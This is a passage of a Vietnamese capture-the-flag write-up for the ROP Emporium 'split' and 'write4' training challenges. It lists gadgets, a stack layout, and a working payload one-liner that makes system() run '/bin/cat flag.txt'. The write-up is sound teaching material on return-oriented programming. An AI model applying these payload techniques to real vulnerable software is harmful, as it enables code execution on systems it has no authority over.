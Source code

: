 ```text-plain
$ python3 Ropper.py -f split
...
0x00000000004007c3: pop rdi; ret;
0x000000000040053e: ret;
```

Gadget `pop rdi; ret;` sẽ lấy vị trí kế tiếp trong stack (địa chỉ của chuỗi command in ra flag trong section .data của binary) làm argument cho hàm system

Ta sẽ build stack như sau:

```text-plain
  [A*8  ]
  [.....]
  [A*8  ] -> 40*A
  [0x4007c3] -> pop rdi; ret;
  [0x601060] -> .data   ascii "/bin/cat flag.txt" -> arg1
  [0x40053e] -> ret;
  [0x400560] -> system();
```

Truyền payload vào binary

```text-plain
python3 -c "import sys;sys.stdout.buffer.write(b'A'*40 + b'\xc3\x07\x40\x00' + b'\x00'*4 + b'\x60\x10\x60\x00' + b'\x00'*4 + b'\x3e\x05\x40\x00' + b'\x00'*4 + b'\x60\x05\x40\x00' + b'\x00'*4)" | ./split
```

## Write4
Challenge 4 sẽ hướng dẫn một kỹ thuật chính là **write-what-where gadgets,** nơi ta sẽ ghi nội dung bất kỳ vào vị trí nào đó trong memory

Gadget này sẽ có dạng `mov [reg2], reg1` nơi ta sẽ ghi nội dung của thanh ghi reg1 vào địa chỉ lưu trong thanh ghi reg2

Ở bài này ta có sẵn function print\_file(\*arg1) nhận giá trị tại địa chỉ của arg1 và truyền vào hàm fopen và mở file đó ra, do đó ta cần khiến thanh ghi `rdi` lưu địa chỉ mà tại đó chứa tên chuỗi “flag.txt” là được

![]({static}/images/ropemporium/Write4/image.png)

Tiến hành lấy các gadget cần thiết

```text-plain
$ rabin2 -i write4
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
4   0x00400510 GLOBAL FUNC       print_file

$ rabin2 -S write4
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ python3 Ropper.py -f write4
...
0x0000000000400690: pop r14; pop r15; ret; 
0x0000000000400628: mov qword ptr [r14], r15; ret;
0x0000000000400693: pop rdi; ret; 
0x00000000004004e6: ret;
```
